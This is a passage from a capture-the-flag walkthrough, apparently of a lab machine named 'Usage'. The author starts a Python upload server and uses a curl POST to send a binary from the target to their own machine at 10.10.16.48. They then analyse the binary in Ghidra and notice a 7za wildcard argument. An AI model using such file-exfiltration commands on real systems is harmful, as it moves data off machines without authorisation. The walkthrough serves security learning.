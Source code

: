 
![Binary options](/assets/img/Usage/usage_12.png)

So to figure out what we might be able to abuse we need to dig deeper. I'll extract this binary from the machine to my own so i can analyze it  using ghidra. First i setup and upload server on my own machine using python.

```bash
python3 -m uploadserver 80
```

then using the following curl command you can upload jar file

```bash
curl -X POST http://10.10.16.48/upload -F files=@usage_management
```

Then a moment later we'd have the binary on our machine. Next start a new non-shared project. After doing this add the binary file to this project in using the import file feature in the file tab. If everything went well you'd end up with the following window.

![Ghidra  opened](/assets/img/Usage/usage_13.png)

When looking through the code i noticed something i haven't seen before in the 7za command.  The **-- \*** was unfamiliar to me so i decided to look deeper into that.
